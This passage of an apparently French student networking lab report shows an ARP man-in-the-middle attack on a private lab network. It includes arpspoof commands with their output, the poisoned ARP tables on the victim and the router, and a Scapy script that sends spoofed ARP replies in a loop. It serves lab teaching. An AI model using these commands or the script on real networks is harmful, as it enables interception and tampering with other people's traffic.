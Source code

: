     0c:e6:03:92:00:00  10.2.1.11 expires in 79 seconds

## 🌞 Mettre en place un ARP MITM

    debian@debian:~$ sudo apt install dsniff
#
    debian@debian:~$ sudo sysctl -w net.ipv4.ip_forward=1
#
    debian@debian:~$ sudo arpspoof -i ens4 -r -t 10.2.1.10 10.2.1.254
    c:e6:3:92:0:0 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at c:e6:3:92:0:0
    c:e6:3:92:0:0 c:a:72:0:0:1 0806 42: arp reply 10.2.1.10 is-at c:e6:3:92:0:0
    c:e6:3:92:0:0 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at c:e6:3:92:0:0
    c:e6:3:92:0:0 c:a:72:0:0:1 0806 42: arp reply 10.2.1.10 is-at c:e6:3:92:0:0
    
### Table ARP de node1.tp2.efrei :

    PC1> show arp

    0c:e6:03:92:00:00  10.2.1.11 expires in 28 seconds
    0c:e6:03:92:00:00  10.2.1.254 expires in 120 seconds
    
### Table ARP de router.tp2.efrei :

    [rocky@routeurtp2 ~]$ ip neighbor show
    10.2.1.11 dev eth1 lladdr 0c:e6:03:92:00:00 STALE
    192.168.122.1 dev eth0 lladdr 52:54:00:23:04:c2 STALE
    10.2.1.253 dev eth1 lladdr 0c:f8:d7:6a:00:00 STALE
    10.2.1.10 dev eth1 lladdr 0c:e6:03:92:00:00 REACHABLE
    
## 🌞 Capture Wireshark arp_mitm.pcap

La capture est sous le nom : arp_mitm.pcap

## 🌞 Réaliser la même attaque avec Scapy

    from scapy.all import *

    victime = Ether(dst="00:50:79:66:68:00")/ARP (pdst="10.2.1.10", psrc="10.2.1.254")
    routeur = Ether(dst="0c:0a:72:00:00:01")/ARP (pdst="10.2.1.254", psrc="10.2.1.10")

    while True:
    
	    sendp(victime, iface="ens4")
	    sendp(routeur, iface="ens4")
